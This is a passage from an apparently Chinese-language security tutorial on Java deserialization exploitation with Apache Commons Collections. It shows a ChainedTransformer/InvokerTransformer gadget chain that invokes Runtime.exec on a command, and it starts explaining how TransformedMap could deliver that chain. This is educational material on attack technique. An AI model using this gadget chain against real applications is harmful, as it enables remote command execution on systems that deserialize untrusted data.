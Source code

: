 ```java
//		Method  invokeMethod = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
//		Runtime runtime      = (Runtime) invokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]});
//
//		// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
//		Class  cls3       = runtime.getClass();
//		Method execMethod = cls3.getMethod("exec", new Class[]{String.class});
//		execMethod.invoke(runtime, cmd);

		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 执行对象转换操作
		Object transform = transformedChain.transform(null);

		System.out.println(transform);
	}

}
```

通过构建`ChainedTransformer`调用链，最终间接的使用`InvokerTransformer`完成了反射调用`Runtime.getRuntime().exec(cmd)`的逻辑。



## 利用`InvokerTransformer`执行本地命令

上面两个Demo为我们演示了如何使用`InvokerTransformer`执行本地命令，现在我们也就还只剩下两个问题：

1. 如何传入恶意的`ChainedTransformer`；
2. 如何调用`transform`方法执行本地命令；

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的`Transformer`类的Map对象，紧接着我们应该思考如何才能够将调用链串起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对`Map`的`key`或者`value`进行`Transformer`转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	// 省去实现代码
}
```
